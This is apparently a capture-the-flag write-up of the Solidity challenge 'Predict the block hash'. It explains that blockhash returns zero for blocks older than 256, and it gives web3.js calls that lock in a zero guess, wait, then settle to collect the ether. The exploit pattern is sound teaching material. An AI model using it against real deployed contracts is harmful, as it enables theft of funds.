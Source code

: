 # 08. Predict the block hash

## Target contract

```solidity
pragma solidity ^0.4.21;

contract PredictTheBlockHashChallenge {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    function PredictTheBlockHashChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        bytes32 answer = block.blockhash(settlementBlockNumber);

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Vulnerability

The issue here is that there is no bound to the number of blocks between the call to `lockInGuess` and `settle`. From solidity's documentation : "blockhash(uint blockNumber) returns (bytes32): hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero". So we only need to way 256 blocks between the two calls and we know that the result of `bytes32 answer = block.blockhash(settlementBlockNumber)` will be 0 because `settlementBlockNumber` is further than 256 blocks from the current one.

We can do so very easily :

```js
// Set this variable to the contract address
const contract = "0x6982f3A0833a3a0C7D164E9966a80d106a3F1884";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "lockInGuess",
    type: "function",
    inputs: [{ type: "bytes32", name: "hash" }],
  },
  ["0x0000000000000000000000000000000000000000"]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
  value: web3.utils.toWei("1", "ether"),
});
```

Now comes the hardest part, waiting 256 blocks... Then we pass the challenge with :

```js
// Set this variable to the contract address
const contract = "0x6982f3A0833a3a0C7D164E9966a80d106a3F1884";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "settle",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
});
```

You can submit the challenge.